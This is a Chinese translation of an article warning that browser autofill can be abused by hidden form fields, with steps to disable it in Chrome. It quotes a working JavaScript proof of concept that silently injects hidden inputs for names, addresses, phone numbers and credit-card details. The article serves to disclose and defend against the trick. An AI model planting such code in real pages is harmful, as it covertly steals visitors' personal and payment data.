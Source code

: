 # 为什么 Chrome 的自动完成功能不安全，以及如何关闭它

> 原文：<https://www.freecodecamp.org/news/why-your-browsers-autocomplete-is-insecure-and-you-should-turn-it-off-ebc73d7bcefd/>

Chrome 尚未修复一个众所周知的漏洞[，该漏洞在 2013 年](https://yoast.com/autocomplete-security/)首次公开。

基本上，黑客可以隐藏网页上的表单输入字段，如果你选择使用 Chrome 的自动完成功能，Chrome 就会填入你的个人信息。

这看起来是这样的:

![oCfYvamWf4jPJKjaVbLjmPMyF5G4babpTCrB](img/ee51127d70357e9713f5be4d8bfb949e.png)

gif by [anttiviljami](https://github.com/anttiviljami/browser-autofill-phishing/blob/master/readme.md)

GitHub 用户 [haampie](https://gist.githubusercontent.com/haampie/3ba6ebb5fd9f71d2f8e9fb841e52740d/raw/d2278671539ab5987a184603b0b3dd9942ba66e0/inject.js) 用下面的 JavaScript 脚本演示了这一点:

```
var autocompletes = ['name', 'honorific-prefix', 'given-name',  'additional-name', 'family-name', 'honorific-suffix',  'nickname', 'username', 'new-password',  'current-password', 'organization-title', 'organization',  'street-address', 'address-line1', 'address-line2',  'address-line3', 'address-level4', 'address-level3',  'address-level2', 'address-level1', 'country',  'country-name', 'postal-code', 'cc-name', 'cc-given-name',  'cc-additional-name', 'cc-family-name', 'cc-exp',  'cc-exp-month', 'cc-exp-year', 'cc-csc', 'cc-type',  'transaction-currency', 'transaction-amount',  'language', 'bday', 'bday-day', 'bday-month',  'bday-year', 'sex', 'url', 'photo', 'tel',  'tel-country-code', 'tel-national',  'tel-area-code', 'tel-local', 'tel-local-prefix',  'tel-local-suffix', 'tel-extension', 'impp'];emailField.addEventListener('focus', function() {  var wrap = autocompletes.reduce(function(wrapper, field) {    var input = document.createElement('input');        // Make them not focussable    input.tabIndex = -1;    input.autocomplete = field;        wrapper.appendChild(input);    return wrapper;  }, document.createElement('div'));  // Hide the wrapper  wrap.classList.add('hidden');  form.appendChild(wrap);  // Inject the autocompletes once  this.removeEventListener('focus', arguments.callee);});
```

我建议你立即关闭 Chrome 的自动完成功能。

### 在 Chrome 中关闭自动完成的最快方法

1.  将此粘贴到 Chrome 的地址栏:`chrome://settings/autofill`
2.  按 escape 退出“管理自动填充设置”模式
3.  取消选中自动填充复选框

![LKF5tggP0hn7ORHckRNvohV42cj3SInMH0Ky](img/f2e48fc576d34a97127103e7c2dfa379.png)

现在你可以走了。您可能需要输入更多的内容，但是您可以放心，黑客将无法利用这一众所周知的漏洞窃取您的个人数据。